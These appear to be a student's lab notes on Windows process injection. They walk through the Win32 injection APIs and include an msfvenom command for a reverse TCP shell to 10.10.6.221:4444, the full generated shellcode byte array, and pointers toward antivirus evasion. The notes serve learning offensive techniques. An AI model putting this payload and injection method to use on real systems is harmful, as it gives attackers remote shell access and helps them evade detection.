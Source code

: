 http://www.pinvoke.net/

page - 131

# Process Injection

We are going to inject our shellcode to various processses to make it work.

## finding a home for shellcode 

We can run our shellcode either in an unlikely to terminate process like explorer.exe 
or start a hidden process notepad.exe
or we migrate to a process like svchost.exe

Process vs thread

A process has its own virtual memory space, and this space isnot meant to directly interact with other applications.

Thread executes the compiled assembly code of an application. Each thread has its own memory stack.


We will try to open one process from another using Win32 OpenProcess API.

We will modify its memory space using VirtualAllocEx, and WriteProcessMemory and start process with CreateRemoteThread.

### intptr

intptr are intermediate data types that can be used as a standby for point ot int. so used in handles.

### Openprocess API 

opens an existing process and needs 3 parameters. dwDesiredAccess establishes the access rights we require on that process. bInheritHandle - this determines if the handle can be inherited by a child process. dwProcessId - This is the process Id of the remote process.

Integrity level concept: We can access a process with lower integrity level from a higher intergrity level.

![](notepad_permissions.png)

VirtualAllocEx - this is used to allocate memory to our shellcode to a remote process

```c#
LPVOID VirtualAllocEx(
 HANDLE hProcess, // handle to process
 LPVOID lpAddress, // starting address of memory to wrtie our injected instructions
if the address mentioned is already in use then execution will fail so better to pass NULL
 SIZE_T dwSize, // size of allocation we will set as 0x1000
 DWORD flAllocationType,// MEM_COMMIT and MEM_RESERVE 0x3000
 DWORD flProtect // 0x40 PAGE_EXECUTE_READWRITE
)
```

### WriteProcessMemory

WriteProcessMemory - We can copy data to remote process. (RTLMoveMemory doesn't support this.)


```C#
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(
     IntPtr hProcess,// process handle
     IntPtr lpBaseAddress,/// newly allocated memory address 
     byte[] lpBuffer,// address of bytearray containing the shell code
     Int32 nSize,// size of shellcode
     out IntPtr lpNumberOfBytesWritten // a pointers to memory localtion to output how much data was copied
);
```

Notice that the out252 keyword was prepended to the outSize variable to have it passed by 
reference instead of value. This ensures that the argument type aligns with the function 
prototype

to get shellcode use msfvenom given below

### CreateRemoteThread

CreateRemoteThread - as we cannot just call CreateThread.

```C#
HANDLE CreateRemoteThread(
 HANDLE hProcess, // process handle
 LPSECURITY_ATTRIBUTES lpThreadAttributes, // IntPtr.Zero for default values
 SIZE_T dwStackSize, // allowed stack size can be 0
 LPTHREAD_START_ROUTINE lpStartAddress, // start address of a thread
 LPVOID lpParameter, // pointer to variables that will be passed to the thread can be nill
 DWORD dwCreationFlags, // ignore 0
 LPDWORD lpThreadId // ignore IntPtr.Zero
)
```



### creating a code based injection


```C#
└─$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.6.221 LPORT=4444 -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of csharp file: 2362 bytes
byte[] buf = new byte[460] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,
0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x11,0x5c,0x0a,0x0a,0x06,0xdd,0x41,0x54,
0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,
0x89,0xea,0x68,0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,
0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,
0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,
0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,
0x6d,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,
0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,
0x24,0x54,0x01,0x01,0x48,0x8d,0x44,0x24,0x18,0xc6,0x00,0x68,0x48,0x89,0xe6,
0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,
0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,
0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0x0e,0x41,0xba,0x08,0x87,0x1d,0x60,0xff,
0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5 };

```

Using mingw compiler https://www.msys2.org/


https://code.visualstudio.com/docs/cpp/config-mingw#:~:text=From%20the%20main%20menu%2C%20choose%20Run%20%3E%20Add%20Configuration..,build%20and%20debug%20active%20file. 

cttrl + shift + b - to build

with the pe injection it works from here - 

https://www.ired.team/offensive-security/code-injection-process-injection/process-injection

scan result 5/26

Trying to evade the AV we have - https://0xhop.github.io/evasion/2021/04/19/evasion-pt1/








